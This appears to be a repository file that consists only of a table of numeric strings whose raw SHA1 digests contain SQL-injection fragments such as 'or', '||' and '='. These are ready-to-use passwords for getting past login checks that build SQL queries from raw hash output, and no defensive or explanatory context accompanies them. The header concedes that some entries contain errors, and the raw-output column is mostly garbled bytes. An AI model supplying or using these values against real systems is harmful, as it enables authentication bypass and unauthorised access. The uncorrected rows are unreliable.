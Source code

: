 # SHA1_RAW_SQL

# EDIT SOME OF THOSE HASHES CONTAIN ERRORS.... FIXING CONTINUES.
| Hash string                | SHA1 Hash                                     | Raw output            |Query |
| -------------------------- |:---------------------------------------------:|:---------------------:|:----:|
| 6698203317799070           |96009c0bafe7be05e23b0079226f7222d82fee88       |�����;y"or"�/�       |"or"  |
| 6986601413296588           |9086f64aee685f31666689e7277c7c27dc9c78ae       | ���J�h_1ff��'\|\|'ܜx�|'\|\|'| 
| 1544198490432198           |0ab4f9472ad062911f1c276f72275e323ec0ea06       | ��G*�b�'or'^2>��   |'or'  |          
| 3672425191345760           |f329613e274f522773ab025380a2a48a65dc8c9d       | �)a>'OR's�S����e܌�  |'OR'  |
| 90044158557888             |ecb85b1335f495fa07c8273d2764f9e7381569c9       | �\[5����'='d��8i�  |'='   |
| 8152926040256027           |49f3b2b968273d27b41e8b5892b0719858fd1608       | I�h'='��X��q�X�    |'='   |
| 4219257263531947           |e592e062d009273d274dbbc3d3661d9b4ef58724       | ��b� '='M���f�N��$   |'='   |
| 681285578467884            |8d2c4c556c521d273d270eade836f4338a03904d       | �,LUlR'='��6�3��M  |'='   |
| 3133235857654965           |df22273d277b42b1bf4fc3429ea9c861ae869844       | �"'='{B��O�B���a���D  |'='   |
| 576197079592062            |d5fa374044a0a3c07bca570744d3273d276c3511       | ��7@D���{�WD�'='l5  |'='   |


